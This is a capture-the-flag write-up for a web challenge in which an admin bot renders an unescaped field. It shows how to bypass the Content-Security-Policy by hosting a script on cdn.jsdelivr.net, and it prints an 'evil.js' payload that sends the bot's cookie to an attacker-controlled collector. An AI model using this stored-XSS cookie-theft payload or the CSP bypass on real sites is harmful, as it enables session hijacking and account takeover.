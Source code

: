 # Cursed Secret Party
## Steps

1. Send a normal req.

image

2. Check source, how it works ?? :
there is a route `/api/submit`, it gets our data to check and add into database, and then a `BOT` will visit `/admin` to colect our data and then renders them in `admin.html` but in `admin.html` has a problem

```
    <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
```
- We see that the `halloween_name` marked it as `safe`, it means the Cross-Site script atk (i have no ideal about it @@@)
Now, let's see how the bot works.

image

- The bot create a JWT token with flag and roles to be authenticated as an admin and then deletes all by goto(`.../admin/delete_all...`)

**Ideal**: we'll steal the cookie of bot.

- And final note is `Content-Security-Policy` header in `index.js`

```
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});

```
- It means there's no injected JS files can execute in because there's no `inline` parameter in the `script-src` directive.

**Ideal** : create a public Gitbub repository and host our JS file on `https://cdn.jsdelivr.net`

- The format should be as follows:

`https://cdn.jsdelivr.net/gh/<github_username>/<repository_name>/<file_name>.js`

- For example: 

`https://cdn.jsdelivr.net/gh/0jamaKig86/code.py/evil.js`

- evil.js
```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'http://BURP-CLIENT-ID/?' + document.cookie, true);
xhttp.send();
```
3. Final payload.

imgae

- Check burp-client.

image

- Decode session.

image
